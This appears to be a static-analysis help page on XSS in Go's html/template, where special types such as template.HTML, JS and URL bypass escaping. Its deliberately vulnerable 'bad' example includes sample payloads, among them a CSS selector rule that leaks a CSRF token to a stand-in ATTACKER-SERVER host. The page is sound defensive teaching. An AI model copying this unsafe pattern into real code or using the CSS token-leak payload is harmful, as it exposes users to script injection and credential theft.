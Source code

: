 # HTML template escaping passthrough
In Go, the `html/template` package has a few special types (`HTML`, `HTMLAttr`, `JS`, `JSStr`, `CSS`, `Srcset`, and `URL`) that allow values to be rendered as-is in the template, avoiding the escaping that all the other strings go through.

Using them on user-provided values will result in an opportunity for XSS.


## Recommendation
Make sure to never use those types on untrusted content.


## Example
In the first example you can see the special types and how they are used in a template:


```go
package main

import (
	"html/template"
	"os"
)

func main() {}
func source(s string) string {
	return s
}

type HTMLAlias = template.HTML

func checkError(err error) {
	if err != nil {
		panic(err)
	}
}

// bad is an example of a bad implementation
func bad() {
	tmpl, _ := template.New("test").Parse(`Hi {{.}}\n`)
	tmplTag, _ := template.New("test").Parse(`Hi <b {{.}}></b>\n`)
	tmplScript, _ := template.New("test").Parse(`<script> eval({{.}}) </script>`)
	tmplSrcset, _ := template.New("test").Parse(`<img srcset="{{.}}"/>`)

	{
		{
			var a = template.HTML(source(`<a href='example.com'>link</a>`))
			checkError(tmpl.Execute(os.Stdout, a))
		}
		{
			{
				var a template.HTML
				a = template.HTML(source(`<a href='example.com'>link</a>`))
				checkError(tmpl.Execute(os.Stdout, a))
			}
			{
				var a HTMLAlias
				a = HTMLAlias(source(`<a href='example.com'>link</a>`))
				checkError(tmpl.Execute(os.Stdout, a))
			}
		}
	}
	{
		var c = template.HTMLAttr(source(`href="https://example.com"`))
		checkError(tmplTag.Execute(os.Stdout, c))
	}
	{
		var d = template.JS(source("alert({hello: 'world'})"))
		checkError(tmplScript.Execute(os.Stdout, d))
	}
	{
		var e = template.JSStr(source("setTimeout('alert()')"))
		checkError(tmplScript.Execute(os.Stdout, e))
	}
	{
		var b = template.CSS(source("input[name='csrftoken'][value^='b'] { background: url(//ATTACKER-SERVER/leak/b); } "))
		checkError(tmpl.Execute(os.Stdout, b))
	}
	{
		var f = template.Srcset(source(`evil.jpg 320w`))
		checkError(tmplSrcset.Execute(os.Stdout, f))
	}
	{
		var g = template.URL(source("javascript:alert(1)"))
		checkError(tmpl.Execute(os.Stdout, g))
	}
}

```
To avoid XSS, all user input should be a normal string type.


```go
package main

import (
	"html/template"
	"os"
)

// good is an example of a good implementation
func good() {
	tmpl, _ := template.New("test").Parse(`Hello, {{.}}\n`)
	{ // This will be escaped:
		var escaped = source(`<a href="example.com">link</a>`)
		checkError(tmpl.Execute(os.Stdout, escaped))
	}
}

```

